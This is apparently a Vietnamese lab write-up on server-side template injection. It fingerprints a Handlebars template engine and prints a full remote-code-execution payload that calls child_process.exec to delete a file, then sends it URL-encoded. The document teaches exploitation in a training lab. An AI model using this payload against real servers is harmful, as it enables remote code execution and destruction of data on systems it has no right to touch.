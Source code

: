 # Server-side template injection in an unknown language with a documented exploit

Truy cập mặt hàng đầu tiên thấy rằng máy chủ gửi một thông báo message rằng sản phẩm không có sẵn:

![image](https://user-images.githubusercontent.com/68894302/179435790-f0a86125-c997-45f6-b00e-4fa1e851b04c.png)

Message hiển thị luôn trên URL

![image](https://user-images.githubusercontent.com/68894302/179435807-7d5e3984-80b7-4217-8cd0-57a81a2b82b4.png)



Đặt template như sau và  sau đó kiểm tra template bên phản hồi

![image](https://user-images.githubusercontent.com/68894302/179436485-43724b7e-37a5-439f-af54-caae151d9c80.png)

`{ this }` -> `[object Object]`

`{{ this.__proto__ }}` -> `[object Object]`

`{{ this.__proto__.constructor.name }}` -> Không có gì

Template engine đang được sử dụng có lẽ là **Handlebars** 

![image](https://user-images.githubusercontent.com/68894302/179435909-d1e4ad87-1920-4daf-b7e5-eb6efc630ccb.png)

Sau khi tìm kiếm google chúng ta thấy rằng có thể thực thi mã từ xa bằng payload sau:

``` 
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('rm -f /home/carlos/morale.txt');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

URL encoded và gửi request

![image](https://user-images.githubusercontent.com/68894302/179438525-9719df49-6492-4d66-b47a-f8f0dbc8d8e4.png)
